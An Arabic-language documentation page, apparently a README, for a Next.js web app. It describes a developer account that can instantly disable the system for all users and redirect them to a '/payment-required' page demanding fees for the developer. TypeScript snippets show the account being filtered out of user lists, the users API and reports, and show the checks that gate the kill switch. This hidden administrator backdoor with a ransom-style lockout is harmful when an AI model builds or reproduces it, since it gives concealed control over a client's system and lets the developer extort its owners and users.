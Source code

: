 ### 3. إيقاف النظام

**عند الضغط على "تعطيل النظام":**
- 🚫 جميع المستخدمين يُمنعون من الوصول
- 💰 يرون صفحة "يرجى دفع رسوم السيستم للمطور"
- 🔒 فقط المطور يمكنه الوصول
- ⚡ التفعيل فوري بضغطة زر

### 4. صفحة دفع الرسوم

**الرابط:** `/payment-required`

**المحتوى:**
- ⚠️ رسالة تنبيه واضحة
- 💳 طلب دفع الرسوم للمطور
- 🔒 منع الوصول لأي صفحة أخرى
- 🎨 تصميم احترافي باللون الأحمر

### 5. الإخفاء الكامل

**الحساب مخفي من:**
- ❌ قائمة المستخدمين (`/dashboard/users`)
- ❌ API جلب المستخدمين (`/api/users`)
- ❌ جميع الإحصائيات والتقارير
- ❌ أي مكان يظهر فيه المستخدمون

**الفلترة في الكود:**
```typescript
const filteredUsers = users.filter(user => 
  user.email !== 'developer@system.local' && 
  user.role !== 'DEVELOPER'
)
```

---

## 🔐 الأمان

### 1. حماية لوحة التحكم

```typescript
// في developer-control/page.tsx
if (data.user.email !== 'developer@system.local' && 
    data.user.role !== 'DEVELOPER') {
  router.push('/dashboard')
  return
}
```

### 2. حماية API

```typescript
// في api/developer/toggle-system/route.ts
if (!user || (user.email !== 'developer@system.local' && 
              user.role !== 'DEVELOPER')) {
  return NextResponse.json({ error: 'غير مصرح' }, { status: 403 })
}
```
